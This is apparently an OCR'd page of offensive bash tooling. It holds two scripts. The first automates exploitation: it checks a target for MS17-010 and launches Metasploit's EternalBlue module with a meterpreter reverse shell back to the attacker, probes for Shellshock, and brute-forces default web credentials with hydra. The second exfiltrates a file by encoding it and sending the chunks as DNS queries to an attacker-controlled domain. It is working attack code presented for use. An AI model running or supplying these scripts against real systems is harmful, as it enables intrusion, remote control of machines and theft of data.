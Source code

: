 ```bash
# Check for common vulnerabilities
echo "[*] Checking for vulnerabilities on $TARGET"

# MS17-010 (EternalBlue) check
echo "[*] Checking for MS17-010..."
nmap -p 445 --script smb-vuln-ms17-010 $TARGET | grep -q "VULNERABLE"
if [ $? -eq 0 ]; then
    echo "[+] MS17-010 detected! Attempting exploitation..."
    
    # Create Metasploit resource script
    cat << EOF > /tmp/exploit.rc
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $TARGET
set LHOST $LHOST
set LPORT $LPORT
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit -j
EOF
    
    msfconsole -r /tmp/exploit.rc
fi

# Check for shellshock
echo "[*] Checking for Shellshock..."
curl -A "() { :; }; echo vulnerable" "http://$TARGET/cgi-bin/test.sh" 2>/dev/null | grep -q "vulnerable"
if [ $? -eq 0 ]; then
    echo "[+] Shellshock vulnerability detected!"
fi

# Check for default credentials
echo "[*] Testing default credentials..."
hydra -C /usr/share/seclists/Passwords/Default-Credentials/default-credentials.csv \
    $TARGET http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" \
    -t 4 -w 10
```

#### Data Exfiltration via DNS
```bash
#!/bin/bash
# dns_exfil.sh - Exfiltrate data via DNS queries

FILE=$1
DOMAIN=$2  # Your controlled domain

if [ -z "$FILE" ] || [ -z "$DOMAIN" ]; then
    echo "Usage: $0 <file> <domain>"
    exit 1
fi

echo "[*] Exfiltrating $FILE via DNS"

# Encode file to base64 and split into chunks
base64 $FILE | fold -w 32 | while read chunk; do
    # Send DNS query
    nslookup "$chunk.$DOMAIN" 8.8.8.8 > /dev/null 2>&1
    echo "[*] Sent chunk: ${chunk:0:10}..."
    sleep 0.5
done

echo "[+] Exfiltration complete"
```
